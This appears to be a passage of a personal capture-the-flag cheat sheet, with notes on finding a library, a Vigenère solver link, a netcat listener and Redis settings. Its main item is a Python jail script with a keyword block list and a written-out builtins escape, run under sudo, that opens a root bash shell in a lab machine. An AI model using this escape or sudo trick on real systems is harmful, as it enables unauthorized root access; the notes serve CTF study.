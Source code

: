 find / -name "libfoo.so" 2>/dev/null
	/usr/lib/libfoo.so

## vigenere-cipher

https://fww.guballa.de/vigenere-solver

example: MYKAHODTQ{RVG_YVGGK_FAL_WXF} 

## Python escaping jails with buitin functions

https://anee.me/escaping-python-jails-849c65cf306e

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()

kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')
root@vagrant:~# id

```

## NC

nc -nvlkp 80 // for loop 


## Redis

username alias masteruser 
password alias requirepass

cmds :
